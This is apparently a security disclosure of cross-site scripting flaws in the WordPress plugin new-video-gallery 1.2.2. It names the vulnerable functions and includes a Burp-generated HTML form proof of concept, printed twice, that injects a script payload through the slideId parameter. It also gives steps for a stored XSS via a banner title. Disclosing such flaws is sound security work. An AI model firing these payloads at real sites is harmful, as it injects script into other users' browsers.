


* App: new-video-gallery
* Verion: 1.2.2
* Issue: xss

# Detail
## 1
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.20.16:8888/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="video&#95;gallery&#95;js" />
      <input type="hidden" name="slideId" value="1&quot;&gt;&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
[new-video-gallery](https://wordpress.org/plugins/new-video-gallery/) is a Wordpress plugin for create YouTube Gallery & Create Vimeo Gallery into your WordPress site. In the version 1.2.2 there are some XSS issues.

At frist, in the file new-video-gallery/new-video-gallery.php:300 line, the function `_ajax_video_gallery()` can be controlled.


And then the function `_vg_ajax_callback_function($id)` will be sinked.

- The PoC:
```php
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.20.16:8888/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="video&#95;gallery&#95;js" />
      <input type="hidden" name="slideId" value="1&quot;&gt;&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```


## 2 
Press `Add Video Gallery` and into this page then press`ADD VIDEO BANNER`.You can upload an image and write the payload on hte `Title` label.
Then press Publish And You will get a `Shortcode`, press the `Shortcode` in your page. The xss will execute in the front page.


